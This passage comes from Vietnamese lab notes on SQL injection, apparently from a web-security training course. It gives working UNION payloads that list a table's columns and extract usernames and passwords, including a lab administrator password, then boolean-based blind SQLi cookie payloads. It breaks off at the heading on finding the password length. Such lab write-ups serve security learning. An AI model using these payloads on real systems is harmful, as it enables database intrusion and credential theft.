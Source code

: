 * Xác định `COLUMN_NAME` trong `TABLE_NAME: users_fdpkec`

```sql
GET /filter?category=' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE TABLE_NAME = 'users_fdpkec'-- 
```

Tìm được `COLUMN_NAME: email, password_qhnrxp, username_dcllzy`.

* Lấy các giá trị `COLUMN_NAME: password_qhnrxp, username_dcllzy` từ `TABLE_NAME: users_fdpkec`

```sql
GET /filter?category=' UNION SELECT username_dcllzy,password_qhnrxp FROM users_fdpkec-- 
```

Ta tìm được thông tin đăng nhập `username_dcllzy: administrator, password_qhnrxp: k5kvgcc1savepgo282j8`.

# SQLi mù
SQLi mù là khi ứng dụng bị SQLi nhưng không hiển thị kết quả hoặc lỗi từ CSDL.

* UNION… không hiệu quả vì không thấy dữ liệu trả về.

* Vẫn khai thác được nhưng phải dùng kỹ thuật khác (vd. boolean-based, time-based).

## Khai thác SQL SQL mù bằng cách kích hoạt các phản ứng có điều kiện
Khai thác SQL SQL mù bằng cách kích hoạt các phản ứng có điều kiện là kỹ thuật SQLi mù mà kẻ tấn công dựa vào sự khác biệt trong phản hồi của ứng dụng khi điều kiện trong truy vấn là ĐÚNG hoặc SAI để suy luận dữ liệu.

**Lab: Blind SQL injection with conditional responses**
Giả xử ta có một chuỗi `Cookie: TrackingId=abcdefghijklm` thì ta sẽ có câu truy vấn như sau:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklm'
```

Tiến hành khai thác có điều kiện với `TrackingId`.

```http
Cookie: TrackingId=abcdefghijklm' AND 1=1-- //Điều kiện đúng ==> Kết quả trả về có "Welcome back"
Cookie: TrackingId=abcdefghijklm' AND 1=2-- //Điều kiện sai ==> Kết quả trả về không có "Welcome back"
```
Suy ra nếu thay điều kiện `1=1` bằng một dữ liệu hữu ích cho viết tấn công thì ta sẽ biết được nếu dữ liệu đúng thì sẽ có `'Welcome back'` và ngược lại thì không.

```http
Cookie: TrackingId=abcdefghijklm' AND SUBSTRING((SELECT username FROM users WHERE username='administrator'),1,13)='administrator
==> Có trả về "Welcome back"
```

Suy ra có tồn tại `username='administrator'`.

Dò độ dài của `password`

